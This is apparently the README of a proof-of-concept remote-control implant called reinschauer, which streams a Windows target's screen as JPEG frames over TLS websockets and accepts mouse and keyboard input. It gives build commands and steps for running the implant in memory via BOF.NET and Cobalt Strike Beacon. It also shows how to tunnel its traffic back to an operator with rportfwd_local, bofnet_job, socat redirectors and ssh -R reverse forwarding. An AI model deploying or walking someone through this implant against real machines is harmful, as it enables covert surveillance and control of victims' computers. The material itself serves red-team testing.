 # Reinschauer best

![Hello](https://github.com/ps1337/reinschauer/blob/main/server/reinschauer.jpg?raw=true)

A PoC to remotely control Windows machines over Websockets. Check out [my blog](https://bananamafia.dev/post/reinschauer/) for a writeup.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/reinschauer.gif?raw=true)

- Can be executed as Go exe, .NET/C# exe and in-memory using [BOF.NET](https://github.com/CCob/BOF.NET) and Cobaltstrike.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/reinschauer_start.png?raw=true)

- Traffic can be tunneled via an interactive Beacon connection.
- Other than most HVNC implementations, `reinschauer` converts raw bitmaps to JPEG and compresses the resulting data before sending it across the network to reduce frame size.
- FPS and quality settings can be dynamically changed via the GUI. These affect the implant, so that network traffic is reduced. Dynamic scaling allows using this tool as an implant for machines with large screens.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/goodquality.gif?raw=true)

- Basic mouse and keyboard controls are possible.
- You can use the script in the `server` folder to generate TLS server files or bring your own.
- The server window can be resized freely, while click events should™ be translated to the correct pixel on the target machine.
- Use `reinschauer-server -h` for available options.

## Protocol

```
+----------------------------------------------------------------------------------------+
|                                                                                        |
|                                                                                        |
|                  +----------------------------------------------------+                |
|                  |#1: Type (Binary or Text)                           |                |
|                  |    Binary: JPG Frame                               |                |
|                  |                                                    |                |
|                  |#2: Text                                            |                |
|                  |    ELO (Ping)                                      |                |
|                  |    FPS <FPS Count>                                 |                |
|                  |    SCL <Scaler Count>                              |                |
|                  |    QUL <JPG Quality>                               |                |
|                  |    LCL X Y (Left Click + Coordinates)              |                |
|                  |    RCL X Y                                         |                |
|                  |    KEY <Char>                                      |      xxxxxx    |
|       xxxxx   <--+----------------------------------------------------+--> xxxx   xx   |
|       x   xx                     Websockets via TLS                        xx       x  |
| x     xxxxxx                                                                xxxxxxxxx  |
| xxx     x   xx                                                          xx    x        |
|     xxxxxxxx                                                              xxxxx xxxxxx |
|         x                                                                   xxxxx      |
|         xx                                                                   xx        |
|         x xx                                                                 xxx       |
|        xx  xx                                                                x xx      |
|        x    xx                                                              xx  xxx    |
|       x      xx                                                             x     xx   |
|       x       x                                                            xx      x   |
+----------------------------------------------------------------------------------------+
```

## FAQ

**How to build?**

- Install a new version of golang, `>=1.18`
- For debian-based distros: `sudo apt -y install libx11-dev libxcursor-dev xorg-dev libgl1-mesa-dev`

```bash
$ cd client && GOOS=windows GOARCH=amd64 go build
$ cd server && GOOS=linux GOARCH=amd64 go build
```

I've included a pre-built and standalone version of the dotnet variant in this repo. If you want to build it yourself, use the Visual Studio project file to build the x64 Release variant. If it doesn't happen automatically, download the required NuGet packages for the project via Visual Studio. Your target system most likely doesn't have these packages installed as well and therefore DLLs may be missing when executing the resulting exe on the target. To get around this, this project automatically invokes `ILMerge.exe` to bundle the resulting exe along with the required libraries. Therefore, use the generated file called `reinschauer-dotnet-standalone.exe` on targets.

> You may have to `go get` stuff before. Use `-ldflags -H=windowsgui` to disable to console window.

**Who's the client/server?**

> The `client` is executed on the target (Windows) machine. The `server` component is executed on the tester's (Linux) machine. It listens on `0.0.0.0:6969` by default. Both the Golang and C# client are compatible with the server.

**Is this a HVNC / Hidden Desktop?**

> No. It uses the same Desktop as the user.

**Some keys and key combinations do not work, pls fix**

> I know that |, @ and § might not work currently, at least on my german potato keyboard. Pls Fix.

**The Client uses too much CPU Time**

> Using a lower FPS value may work.

**I don't have a direct connection between `client` and `server`**

> You can use a CobaltStrike Beacon to tunnel traffic.

**I don't have Cobaltstrike!**

> Use a `socat` redirector like:

```bash
socat TCP4-LISTEN:1337,fork TCP4:127.0.0.1:6969
ssh -R 6969:localhost6969 <IP>
```

> and start the client with the required parameters or hardcode them.

## Notes Regarding BOF.NET and Cobaltstrike Usage

First, set up [BOF.NET](https://github.com/CCob/BOF.NET) according to the manual. Also, load the standalone exe with `bofnet_load <Path to Exe>`. Then, decide how to use Reinschauer:

1. You can tunnel the traffic across an active Beacon connection.
2. You can send traffic to any other Internet-facing server

### Tunnelling Traffic via Beacon

- Set the session to interactive: `sleep 0`.
- Set up remote port forwarding: `rportfwd_local 6969 127.0.0.1 6969`.
- Execute Reinschauer in background: `bofnet_job reinschauer_dotnet.BofStuff`. This automatically causes Reinschauer to connect to `127.0.0.1:6969` on `127.0.0.1` of the target machine. This also deactivates TLS, since it uses the Beacon connection anyway.
- To kill Reinschauer, use `bofnet_jobkill <Job ID>`.

### Sending Traffic to Another Server

- Execute Reinschauer in background: `bofnet_job reinschauer_dotnet.BofStuff <Server IP> <Server Port> true`. The boolean parameter enables TLS usage.
- To kill Reinschauer, use `bofnet_jobkill <Job ID>`.


Then, use SSH and the [GatewayPorts](https://man.openbsd.org/sshd_config#GatewayPorts) feature: Add `GatewayPorts: clientspecified` to `sshd_config` and restart the SSH server. Then, `ssh -R '0.0.0.0:8080:localhost:6969'' [...]` will make your local port `6969` available on `0.0.0.0:8080`. Be careful :)

Or, set up a `socat` redirector on the Server:

```bash
socat TCP4-LISTEN:<Server Port>,fork TCP4:127.0.0.1:6969
ssh -R 6969:localhost6969 <IP>
```
